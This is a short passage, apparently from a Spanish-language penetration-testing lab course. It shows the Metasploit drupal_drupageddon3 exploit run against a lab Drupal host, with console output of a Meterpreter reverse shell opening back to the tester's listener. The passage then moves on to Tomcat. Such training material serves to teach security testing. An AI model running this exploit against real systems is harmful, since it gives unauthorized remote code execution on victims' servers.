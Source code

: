 Si tiene éxito, obtendremos una shell reversa en el host de destino.

```bash
msf6 exploit(multi/http/drupal_drupageddon3) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Token Form -> GH5mC4x2UeKKb2Dp6Mhk4A9082u9BU_sWtEudedxLRM
[*] Token Form_build_id -> form-vjqTCj2TvVdfEiPtfbOSEF8jnyB6eEpAPOSHUR2Ebo8
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:44612) at 2021-08-24 12:38:07 -0400

meterpreter > getuid

Server username: www-data (33)


meterpreter > sysinfo

Computer    : app01
OS          : Linux app01 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

---

## Onwards

Hemos enumerado y atacado algunos de los CMS más prevalentes: WordPress, Drupal y Joomla. A continuación, pasemos a Tomcat, que ha estado poniendo una sonrisa en la cara de los pentesters durante años.